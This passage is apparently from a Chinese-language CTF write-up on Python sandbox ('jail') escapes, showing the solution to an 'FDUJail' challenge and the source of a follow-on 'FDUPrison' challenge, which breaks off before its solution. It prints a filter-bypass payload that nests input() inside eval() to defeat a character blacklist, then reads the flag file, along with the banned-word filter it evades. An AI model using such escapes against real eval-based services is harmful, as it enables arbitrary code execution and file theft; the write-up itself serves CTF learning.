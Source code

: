 ```python
def begin_test(payload):
    eval(payload, {}, {})


print(hello)
input_payload = input("> ")
if not study_in_fdujail(input_payload):
    print("You are not in FDUJail!")
elif found_cheating_by_teacher(input_payload):
    print("Cheating detected!")
else:
    begin_test(input_payload)
```

本题对字符集和命令形式做出了额外限制，且没有全局和本地的变量访问。不过没禁用一些常用函数。直接套进去 `input`，随后就可以绕开字符限制了。那么怎么保证是在 FDU 校内呢？可以加入一些无关紧要的成分，比如 `float`, `id` 这些，放到 `input` 参数里，这样就把 `FDU` 凑齐了。

```python
>>> eval(input(id(float())))
>>> print(open('flag').read())  # eval(nput()) 的输入
```

> fductf{FuDan_DaXue_BaWo_HaiCanLe_87a312d42e37}

## FDUPrison

```python
from flag import flag
backup_input = input
backup_print = print
backup_eval = eval
backup_len = len
input_locals = {'rank': 3.3}

banned_words = ['local', 'global', 'init', 'new', 'attr', 'co', 'update' 'replace', 'module', 'sys', 'std', 'io']

valid_chars = '(abcdefghijklmnopqrstuvwxyz)=._,:'

hello = """
░▒▓████████▓▒░▒▓███████▓▒░░▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓███████▓▒░░▒▓█▓▒░░▒▓███████▓▒░░▒▓██████▓▒░░▒▓███████▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓██████▓▒░ ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓███████▓▒░░▒▓█▓▒░░▒▓██████▓▒░░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░░▒▓█▓▒░
"""

def study_in_fduprison(input):
    return input.count('f') == 1 and input.count('d') == 1 and input.count('u') == 1


def found_cheating_by_teacher(input):
    return [word in input for word in banned_words] != [False for word in banned_words] \
        or [char in valid_chars for char in input] != [True for char in input] \
        or backup_len(input) > 188

```